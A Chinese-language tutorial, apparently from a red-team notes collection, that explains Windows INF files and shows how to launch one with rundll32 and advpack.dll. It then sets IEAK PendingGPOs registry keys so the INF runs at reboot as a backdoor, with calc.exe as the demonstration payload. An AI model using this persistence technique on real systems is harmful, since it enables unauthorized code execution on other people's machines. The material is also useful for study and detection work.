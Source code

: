 ```yaml
---
title: "利用inf文件实现后门"
id: zhfly3526
---
```


## 利用inf文件实现后门

`inf`文件

```
INF文件或安装信息文件是Microsoft Windows用于安装软件和驱动程序的纯文本文件。INF文件最常用于安装硬件组件的设备驱动程序。Windows包含用于创建基于INF的安装的IExpress工具。INF文件是Windows安装程序API及其后续版本Windows Installer的一部分。
PS：来自WIKI
inf`文件的结构
想了解更多可以看一下微软的手册：`https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc939869(v=technet.10)#information-inf-file-entries
1\. DefaultInstall节（来自WIKI）
INF文件的结构与INI文件的结构非常类似; 它包含用于指定要复制的文件，对注册表的更改等的各个部分。所有INF文件都包含一个[Version]带有Signature 键值对的部分，用于指定INF文件所针对的Windows版本。签名通常是$CHICAGO$（对于Windows 9x）或$WINDOWS NT$（对于Windows NT / 2K / XP）。其余大多数部分是用户定义的，并且包含特定于要安装的组件的信息。 
3.  `DefaultInstall节（来自微软的手册）

    RunPreSetupCommands-本节中指定的命令在安装服务配置文件之前运行。

    RunPostSetupCommands-本节中指定的命令在安装程序完成服务配置文件后运行。

    RunPreUnInstCommands-本节中指定的命令在卸载程序开始之前运行。

    RunPostUnInstCommands-本节中指定的命令在卸载程序运行后运行。` 

```

下面举一个`calc.inf`弹计算器的例子

```
[Version]
Signature="$CHICAGO$"
AdvancedINF=2.5,"test"
[DefaultInstall]
RunPreSetupCommands=Command1
[Command1]
C:\windows\system32\calc.exe 
```

命令行下执行：

```
rundll32.exe advpack.dll,LaunchINFSection calc.inf,DefaultInstall 
```

效果如下：

![image](../img/b99dd59e996f8eb17905e3dce8e351d6.png)

后门实现：
在注册表`HKEY_CURRENT_USER\Software\Microsoft\`处依次新建子项`\IEAK\GroupPolicy\PendingGPOs`，然后再新建几个键，如下：

1.  键：`Count`，类型：`REG_DWORD`，键值：`1`
2.  键：`Path1`，类型：`REG_SZ`，键值：`C:\Users\Administrator\Desktop\test\calc.inf` //这个为我们inf文件的路径，这里以上面那个inf文件例子为例
3.  键：`Section1`，类型：`REG_SZ`，键值：`DefaultInstall`

如下图所示：

![image](../img/7a3e43fde53ef2c9168d83ca8f21a032.png)

重启电脑之后成功弹出计算器

![image](../img/3cf53ef528e55dda09ffbfe112ab6d93.png)

但是重启之后`PendingGPOs`该项就会被清除，需要我们重新修改注册表

![image](../img/d5929cf06034c2498bee0774b7d1915d.png)